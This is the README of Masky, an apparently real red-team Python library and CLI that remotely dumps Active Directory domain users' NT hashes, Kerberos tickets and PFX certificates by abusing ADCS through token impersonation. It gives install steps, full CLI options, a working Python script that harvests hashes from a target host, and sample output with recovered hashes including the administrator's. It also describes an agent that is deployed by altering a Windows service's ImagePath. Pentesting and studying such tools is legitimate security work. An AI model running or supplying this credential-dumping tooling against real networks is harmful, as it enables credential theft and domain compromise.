

# Masky

[](https://badge.fury.io/py/masky)
[](https://twitter.com/intent/follow?screen_name=_ZakSec)

Masky is a python library providing an alternative way to remotely dump domain users' credentials thanks to an ADCS. A command line tool has been built on top of this library in order to easily gather PFX, NT hashes and TGT on a larger scope.

This tool does not exploit any new vulnerability and does not work by dumping the LSASS process memory. Indeed, it only takes advantage of legitimate Windows and Active Directory features (token impersonation, certificate authentication via kerberos & NT hashes retrieval via PKINIT). A [blog post](https://z4ksec.github.io/posts/masky-release-v0.0.3/) was published to detail the implemented technics and how Masky works.

Masky source code is largely based on the amazing [Certify](https://github.com/GhostPack/Certify) and [Certipy](https://github.com/ly4k/Certipy) tools. I really thanks their authors for the researches regarding offensive exploitation technics against ADCS (see. [Acknowledgments section](#acknowledgments)). 

## Installation

Masky python3 library and its associated CLI can be simply installed via the public PyPi repository as following:
```
pip install masky
```

The Masky agent executable is already included within the PyPi package.

Moreover, if you need to modify the agent, the C# code can be recompiled via a Visual Studio project located in `agent/Masky.sln`. It would requires `.NET Framework 4` to be built.

## Usage

Masky has been designed as a Python library. Moreover, a command line interface was created on top of it to ease its usage during pentest or RedTeam activities.

For both usages, you need first to retrieve the FQDN of a `CA server` and its `CA name` deployed via an ADCS. This information can be easily retrieved via the `certipy find` option or via the Microsoft built-in `certutil.exe` tool. Make sure that the default `User` template is enabled on the targeted CA.

Warning: Masky deploys an executable on each target via a modification of the existing `RasAuto` service. Despite the automated roll-back of its intial `ImagePath` value, an unexpected error during Masky runtime could skip the cleanup phase. Therefore, do not forget to manually reset the original value in case of such unwanted stop.

### Command line

The following demo shows a basic usage of Masky by targeting 4 remote systems. Its execution allows to collect NT hashes, CCACHE and PFX of 3 distincts domain users from the sec.lab testing domain.

<p align="center">
  
</p>


Masky also provides options that are commonly provided by such tools (thread number, authentication mode, targets loaded from files, etc. ).

```
  __  __           _
 |  \/  | __ _ ___| | ___   _
 | |\/| |/ _` / __| |/ / | | |
 | |  | | (_| \__ \   <| |_| |
 |_|  |_|\__,_|___/_|\_\__,  |
  v0.0.3                 |___/

usage: Masky [-h] [-v] [-ts] [-t THREADS] [-d DOMAIN] [-u USER] [-p PASSWORD] [-k] [-H HASHES] [-dc-ip ip address] -ca CERTIFICATE_AUTHORITY [-nh] [-nt] [-np] [-o OUTPUT]
             [targets ...]

positional arguments:
  targets               Targets in CIDR, hostname and IP formats are accepted, from a file or not

options:
  -h, --help            show this help message and exit
  -v, --verbose         Enable debugging messages
  -ts, --timestamps     Display timestamps for each log
  -t THREADS, --threads THREADS
                        Threadpool size (max 15)

Authentication:
  -d DOMAIN, --domain DOMAIN
                        Domain name to authenticate to
  -u USER, --user USER  Username to authenticate with
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters.
  -H HASHES, --hashes HASHES
                        Hashes to authenticate with (LM:NT, :NT or :LM)

Connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -ca CERTIFICATE_AUTHORITY, --certificate-authority CERTIFICATE_AUTHORITY
                        Certificate Authority Name (SERVER\CA_NAME)

Results:
  -nh, --no-hash        Do not request NT hashes
  -nt, --no-ccache      Do not save ccache files
  -np, --no-pfx         Do not save pfx files
  -o OUTPUT, --output OUTPUT
                        Local path to a folder where Masky results will be stored (automatically creates the folder if it does not exit)
```

### Python library

Below is a simple script using the Masky library to collect secrets of running domain user sessions from a remote target.

```python
from masky import Masky
from getpass import getpass


def dump_nt_hashes():
    # Define the authentication parameters
    ca = "srv-01.sec.lab\sec-SRV-01-CA"
    dc_ip = "192.168.23.148"
    domain = "sec.lab"
    user = "askywalker"
    password = getpass()

    # Create a Masky instance with these credentials
    m = Masky(ca=ca, user=user, dc_ip=dc_ip, domain=domain, password=password)

    # Set a target and run Masky against it
    target = "192.168.23.130"
    rslts = m.run(target)

    # Check if Masky succesfully hijacked at least a user session
    # or if an unexpected error occured
    if not rslts:
        return False

    # Loop on MaskyResult object to display hijacked users and to retreive their NT hashes
    print(f"Results from hostname: {rslts.hostname}")
    for user in rslts.users:
        print(f"\t - {user.domain}\{user.name} - {user.nt_hash}")

    return True


if __name__ == "__main__":
    dump_nt_hashes()
```

Its execution generate the following output.

```
$> python3 .\masky_demo.py
Password:
Results from hostname: SRV-01
         - sec\hsolo - 05ff4b2d523bc5c21e195e9851e2b157
         - sec\askywalker - 8928e0723012a8471c0084149c4e23b1
         - sec\administrator - 4f1c6b554bb79e2ce91e012ffbe6988a
```

A `MaskyResults` object containing a list of `User` objects is returned after a successful execution of Masky. 

Please look at the `masky\lib\results.py` module to check the methods and attributes provided by these two classes.

### Standalone Masky agent

From the Masky version 0.0.5, the standalone executable agent can now easily be ran without the Python CLI.

Here are the arguments:
```
$> .\Masky.exe /ca:'CA SERVER\CA NAME' (/template:User) (/currentUser) (/output:./output.txt) (/debug:./debug.txt)
```

The `/ca` parameter is mandatory as for the Python CLI. Moreover, the `/currentUser` argument has been added to avoir running token impersonation. Indeed, a simple certificate request will be performed in the current user context, based on the provided template (`template`). The `/output` and `/debug` parameters allow to specify the path where will be created the files.

The default values are the following:
- currentUser: false (aka. impersonation is enabled);
- template: User;
- output: ./Masky_results.txt
- debug: ./Masky_debug.txt

<p align="center">
  
</p>

## Acknowledgments

- [Olivier Lyak](https://twitter.com/ly4k_) for the [Certipy](https://github.com/ly4k/Certipy) tool and the [associated articles](https://medium.com/@oliverlyak)
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for the [Certify](https://github.com/GhostPack/Certify) tool and the [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) article
- [Dirk-jan](https://twitter.com/_dirkjan) for the [PKINITtools](https://github.com/dirkjanm/PKINITtools) and its [ADCS NTLM relay](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) article
- [SecureAuthCorp](https://github.com/SecureAuthCorp) and the associated contributors for the [Impacket](https://github.com/SecureAuthCorp/impacket) library
- [Pixis](https://twitter.com/HackAndDo) for the tool [Lsassy](https://github.com/Hackndo/Lsassy)
- Incognito tool and its [Metasploit implementation](https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/incognito/)
- [S3cur3Th1sSh1t](https://twitter.com/ShitSecure) for the tool [SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation) and the [associated article](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)
- McAfee for their article regarding the [token impersonation techniques](https://www.mcafee.com/enterprise/en-us/assets/reports/rp-access-token-theft-manipulation-attacks.pdf)